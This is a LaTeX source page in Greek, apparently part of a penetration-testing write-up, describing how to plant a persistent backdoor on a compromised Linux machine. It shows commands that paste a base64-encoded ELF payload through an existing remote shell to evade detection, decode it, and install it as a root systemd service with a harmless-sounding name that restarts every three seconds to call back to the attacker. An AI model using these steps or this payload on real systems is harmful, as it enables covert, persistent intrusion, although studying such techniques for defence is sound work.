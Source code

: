 \documentclass[12pt]{report}
\begin{document}
Το επόμενο βήμα είναι το ανέβασμα του \textlatin{payload} στο μηχάνημα στόχο. Επειδή δεν θέλουμε να δημιουργήσουμε υποψίες με νέες συνδέσεις, δε θα χρησιμοποιήσουμε \textlatin{netcat, ftp, wget, curl} ή κάποιο άλλο τρόπο μετάδοσης αρχείων. Αντίθετα θα βασιστούμε στο μικρό μέγεθος του \textlatin{payload} και στο \textlatin{remote shell}, που έχουμε ήδη. Θα κωδικοποιησουμε το \textlatin{binary payload} σε \textlatin{base64} και θα κάνουμε αντιγραφή και επικόλληση τους \textlatin{ASCII} χαρακτήρες που προκύπτουν, μέσω του \textlatin{remote shell} σε νέο αρχείο. Στη συνέχεια αποκωδικωποιούμε το αρχείο αυτό και έχουμε το αρχικό \textlatin{binary payload} έτοιμο στην απέναντι πλευρά...
\begin{scriptsize}
\begin{verbatim}
root@kali# base64 muser
\end{verbatim}
\end{scriptsize}
Κάνουμε τώρα αντιγραφή τους χαρακτήρες από το \textlatin{stdout} και επικόλληση τους εντός εισαγωγικών σε μια εντολή \textlatin{echo} στο \textlatin{remote shell}.
\begin{scriptsize}
\begin{verbatim}
root@kali# echo "f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAA
AAAAAIAECACABAgHAQAAugEAAAcAAAAAEAAA28rZdCT0WjPJsSe9OTlI1TFqF4Pq/ANTKqogeZbz
v1nTvoi+LG5X65shSNpMWgrzj1lb142caebWxBOrESvlvNSkNtyf+h+oi4yotVJPtXJXc27I12Fm
Mydi3x3TkNGdeCeK60OXfQRjbXTpkNjDWqcRaSVDXZ6Rwyoa8tW5haSFGHh13BNYxnbRPsIl9enX
E2h9gaWQTAxWZvSBMeCXbTqVWJNeQMfvqC7dCdhMoJAQrXQ=" > muser64

root@kali# base64 -d muser64 > muser && rm muser64
\end{verbatim}
\end{scriptsize}
Με τη \textlatin{backdoor} στο μηχάνημα στόχο, μας μένει μόνο να δημιουργήσουμε το \textlatin{service} και να μετακινήσουμε το εκτελέσιμο σε θέση που δεν εγείρει υποψίες.
\begin{scriptsize}
\begin{verbatim}
root@kali# cp muser /usr/bin/muser

root@kali# cat > /etc/systemd/system/multiple-user.service << EOF
[Unit]
Description=System Multiuser Configuration

[Service]
ExecStart=/usr/bin/muser
User=root
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
EOF

root@kali# systemctl enable multiple-user
\end{verbatim}
\end{scriptsize}
Το \textlatin{service} δημιουργείται με τρόπο ώστε να γίνεται αυτόματη επανεκκίνησή του εφόσον δεν είναι ενεργό. Επίσης προσπαθεί να συνδεθεί ανά 3 δευτερόλεπτα. Αυτό γίνεται γιατί το \textlatin{payload} είναι φτιαγμένο ώστε να κάνει \textlatin{segfault} όταν δε μπορεί να συνδεθεί με το απομακρυσμένο μηχάνημα. Έτσι σε κάθε αποτυχία σύνδεσης επαννεκινεί το \textlatin{service}.
\end{document}
